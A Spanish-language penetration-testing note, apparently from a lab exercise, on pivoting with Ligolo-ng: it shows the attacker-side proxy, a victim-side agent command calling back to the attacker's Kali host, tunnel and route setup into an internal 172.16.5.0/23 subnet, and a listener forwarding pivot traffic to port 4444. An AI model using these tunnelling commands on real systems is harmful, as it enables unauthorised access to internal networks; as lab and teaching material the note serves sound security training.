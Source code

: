 # Alternativa Ligolo
- Ligolo es una buena alternativa sin tener que utilizar SOCKS ni proxychains que suelen ser engorrosos y generan mucha latencia en la red.
- Primero hay que [descargarse los binarios de agente y proxy](https://github.com/nicocha30/ligolo-ng/releases)

- **En maquina atacante:** `sudoligolo-proxy -selfcert`
```
ligolo-ng » interface_create --name "pivot"
INFO[0022] Creating a new "pivot" interface...          
INFO[0022] Interface created!                           
ligolo-ng »  
```
- **En maquina victima:** `./agent -connect ipKALI:11601 -ignore-cert`
- **En maquina atacante**
```
ligolo-ng » session
? Specify a session : 1 - ubuntu@WEB01 - 10.129.115.194:42414 - 00a21e69-4e53-4dec-9139-fb12ae570838
```
- Y ahora iniciamos el tunnel
    - También podemos usar `autoroute`
```
[Agent : ubuntu@WEB01] » tunnel_start --tun pivot
[Agent : ubuntu@WEB01] » INFO[0334] Starting tunnel to ubuntu@WEB01 (00a21e69-4e53-4dec-9139-fb12ae570838) 
```

#### Crear routing hacia la interfaz que queremos alcanzar

```
[Agent : ubuntu@WEB01] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
│ IPv6 Address │ ::1/128             │
└──────────────┴─────────────────────┘
┌─────────────────────────────────────────────────┐
│ Interface 1                                     │
├──────────────┬──────────────────────────────────┤
│ Name         │ ens192                           │
│ Hardware MAC │ 00:50:56:b0:df:18                │
│ MTU          │ 1500                             │
│ Flags        │ up|broadcast|multicast|running   │
│ IPv4 Address │ 10.129.115.194/16                │
│ IPv6 Address │ dead:beef::250:56ff:feb0:df18/64 │
│ IPv6 Address │ fe80::250:56ff:feb0:df18/64      │
└──────────────┴──────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:b0:92:e9              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.5.129/23                │
│ IPv6 Address │ fe80::250:56ff:feb0:92e9/64    │
└──────────────┴────────────────────────────────┘
[Agent : ubuntu@WEB01] » interface_add_route --name pivot --route 172.16.5.129/23
INFO[0423] Route created.                               
[Agent : ubuntu@WEB01] »  
```

## Agregar listeners
#### Un proxy listener lo que hace es redirigir puertos de la maquina pivote hacia nuestra maquina atacante.
- `listener_list`: Para listar los listeners activos
- `listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444`: Maquina pivote 1234 => Maquina kali escucha 4444